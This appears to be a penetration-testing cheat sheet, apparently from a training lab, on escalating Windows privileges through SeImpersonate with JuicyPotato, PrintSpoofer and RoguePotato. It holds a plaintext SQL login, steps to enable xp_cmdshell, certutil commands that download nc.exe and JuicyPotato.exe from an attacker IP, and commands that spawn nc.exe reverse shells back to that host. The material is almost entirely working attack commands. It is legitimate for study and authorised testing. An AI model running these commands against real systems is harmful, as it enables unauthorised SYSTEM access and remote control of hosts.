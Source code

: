 ## SeImpersonate Example - JuicyPotato

**Connecting with MSSQLClient.py
```
mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```
- sql_dev:Str0ng_P@ssw0rd!

**Enabling xp_cmdshell
```
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell whoami /priv
```

**Escalating Privileges Using JuicyPotato
```
sudo nc -lnvp 8443
xp_cmdshell c:\Users\Public\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\Users\Public\nc.exe 10.10.15.75 8443 -e cmd.exe" -t *
```
- Start listener on attack machine
- Transfer JuicyPotato.exe and nc.exe to target server
- JuicyPotato: https://github.com/ohpe/juicy-potato
- JuicyPotato does not work on Windows Server 2019 and Windows 10

## PrintSpoofer and RoguePotato
```
nc -lnvp 8443
xp_cmdshell "certutil.exe -urlcache -f http://10.10.15.75:8000/nc.exe C:\Users\Public\nc.exe"
xp_cmdshell "certutil.exe -urlcache -f http://10.10.15.75:8000/JuicyPotato.exe C:\Users\Public\JuicyPotato.exe"
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.15.75 8443 -e cmd"
```
- Use PrintSpoofer and RoguePotato for Windows Server 2019 and Windows 10
- Same concept as JuicyPotato

